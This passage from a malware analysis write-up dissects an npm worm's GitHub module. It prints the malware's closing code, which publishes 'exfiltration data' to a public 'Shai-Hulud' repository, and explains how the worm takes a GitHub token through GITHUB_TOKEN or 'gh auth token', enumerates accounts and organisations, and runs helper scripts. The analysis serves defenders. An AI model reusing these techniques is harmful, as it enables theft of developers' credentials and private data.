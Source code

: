 ```

    // 8. CREATE MALICIOUS REPOSITORY
    r_GitHubModule.isAuthenticated() && await r_GitHubModule.makeRepo("Shai-Hulud", JSON.stringify(ue_exfiltration_data, null, 2));
    
    process.exit(0);
}

main().catch(t => {
    process.exit(0);
});
```

##### GitHubModule

<img src="/static/NPM/image-35.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-39.png" alt="drawing" width="1000"/>

Let's begin with the GitHubModule. The module's main() function first calls isAuthenticated(), which attempts to verify the presence of a valid GitHub token. This function tries to retrieve the token from the GITHUB_TOKEN environment variable. If returns nothing, it falls back to executing the command gh auth token to obtain the token. The getCurrentToken() function simply returns the token.

<img src="/static/NPM/image-31.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-32.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-33.png" alt="drawing" width="1000"/>

The get getUser function is responsible for collect the username, email, name, public repositories, followers, following and account creation date of the github account:

<img src="/static/NPM/image-34.png" alt="drawing" width="1000"/>

A particularly notable behavior involves the extraction() and migration() functions. These are responsible for creating and executing the malicious scripts processor.sh and migrate-repos.sh, respectively. The specific details and capabilities of each script will be covered in the next section.

<img src="/static/NPM/image-36.png" alt="drawing" width="1000"/>

<img src="/static/NPM/image-37.png" alt="drawing" width="1000"/>

The getOrgs() function enumerates all organizations the user belongs to.

<img src="/static/NPM/image-38.png" alt="drawing" width="1000"/>

The makeRepo is very interesting, it creates a new public repository named Shai-Hulud with the description 'Shai-Hulud Repository'. This repository contains a single file, data.json, which holds a Base64-encoded data.

<img src="/static/NPM/image-41.png" alt="drawing" width="1000"/>

